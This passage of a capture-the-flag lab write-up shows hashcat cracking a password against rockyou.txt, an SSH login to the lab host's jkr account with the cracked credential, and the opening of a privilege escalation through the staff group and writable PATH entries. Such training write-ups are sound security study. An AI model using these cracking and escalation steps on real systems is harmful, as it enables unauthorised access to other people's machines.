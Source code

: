 ```none
Rejected.........: 0/4360192 (0.00%)
Restore.Point....: 4359168/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raymie0506 -> raygan96
```

Looking at the "Progress" in the `hashcat` output we can see we went through about 4 million passwords. The same result if we analyse the `rockyou.txt` file, the password is quite far in the wordlist - so glad I used a faster password cracking tool!

```none
└─$ grep -rin raykayjay9 /usr/share/wordlists/rockyou.txt 
4359762:raykayjay9
```

Finally, log in to the `jkr` account using the password.

```none
└─$ ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

## Privesc: `jkr` to `root`

The `jkr` privilege is quite low. I ran linpeas in the background while enumerating manually. I noticed that linpeas highlighted a variety of PATH entries. I also noticed that the user `jkr` was a member of more groups than I am used to seeing.

```none
jkr@writeup:~$ groups
jkr cdrom floppy audio dip video plugdev staff netdev
```

The documentation on the [System Groups from the Debian Wiki](https://wiki.debian.org/SystemGroups) shows the purpose of the `staff` group.

> Allows users to add local modifications to the system (/usr/local) without needing root privileges

And, according to the [Linux Privilege Escalation doc on HackTricks the PATH](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses) information is interesting.
